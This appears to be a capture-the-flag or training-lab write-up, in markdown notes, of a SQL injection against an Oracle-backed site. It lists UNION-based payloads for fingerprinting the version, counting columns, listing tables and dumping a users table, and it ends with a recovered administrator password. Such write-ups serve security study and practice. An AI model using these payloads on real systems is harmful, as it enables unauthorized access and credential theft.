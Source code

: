 # Goal: Login as admin

# Preliminary Work
- Get the SQL Version
    - ' UNION SELECT @@version
        - Unsuccessful
    - ' UNION SELECT version()--
        - Unsuccessful
    - [Oracle] ' UNION SELECT BANNER,NULL FROM v$version--
        - SUCCESS
        - ![Oracle Version](./pics/130057.png)  
- Determine number of columns needed for UNION
    - ' ORDER BY (number)--
        - stop when you get an error
    - ' ORDER BY 3-- yielded error so we know there are 2 columns
        - ALL tables have 2 columns
- Determine which columns can handle text (to display juicy info)
    - ' UNION SELECT 'a',NULL,NULL,... FROM dual--
        - Oracle requires selection from a table
        - dual is a dummy table that anyone can access :)
    - ' UNION SELECT 'a',NULL FROM dual-- ||| ' UNION SELECT NULL,'a' FROM dual-- both worked
        - both columns support text (good news for username and passwords)

# Looking Through the Database (non-Oracle)
- Get list of table names
    - ' UNION SELECT TABLE_NAME,NULL FROM all_tables--
    - ![](./pics/141930.png)
- CRTL-F 'user' to find potential tables
    - USERS_ELWKUV (worked!)
    - USER$
- Get columns for the tables ()
    - PASSWORD_UOJZWJ | USERNAME_WRUUZC
    - ![](./pics/141953.png)
- Get the column data
    - ' UNION SELECT USERNAME_WRUUZC,PASSWORD_UOJZWJ FROM USERS_ELWKUV--
    - ![](./pics/142008.png)
- Admin Info
    - uname: administrator
    - pword: b4if4ckvox1tsk8wlgjx



